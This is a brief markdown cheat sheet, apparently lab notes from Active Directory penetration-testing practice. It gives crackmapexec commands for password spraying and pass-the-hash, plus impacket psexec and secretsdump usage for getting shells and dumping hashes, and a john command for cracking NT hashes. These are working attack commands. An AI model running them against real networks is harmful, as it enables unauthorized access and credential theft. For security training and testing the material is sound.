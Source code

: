 ## crackmapexec

Use crackmapexec to pass the password around the network and see what other machines include this account

```bash
example: crackmapexec smb 192.168.16.0/24 -u fcastle -d MARVEL.local -p Password1
Usage: crackmapexec smb [ ip/CIDR] -u [username] -d [domain] -p [password]
```
### Pass the Hash
Once you get the hash from secrets dump you only want the second part of the hash after the colon
```bash
crackmapexec smb 192.168.16.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```

### psexec
You can use this command to get a quick easy shell sometimes it works sometimes it doesn't

```bash
example: psexec.py marvel/fcastle:Password1@192.168.16.139
usage: psexec.py domain/username:password@[IP]
```

### secretsdump

Use this to dump hashes and maybe pass them around
```bash
example: secretsdump.py marvel/fcastle:Password1@192.168.16.129
usage: secretsdump.py domain/username:password@[IP]
```


cracking sam hashes
```bash
john hash.txt --format=NT --wordlist=/path/to/file
```
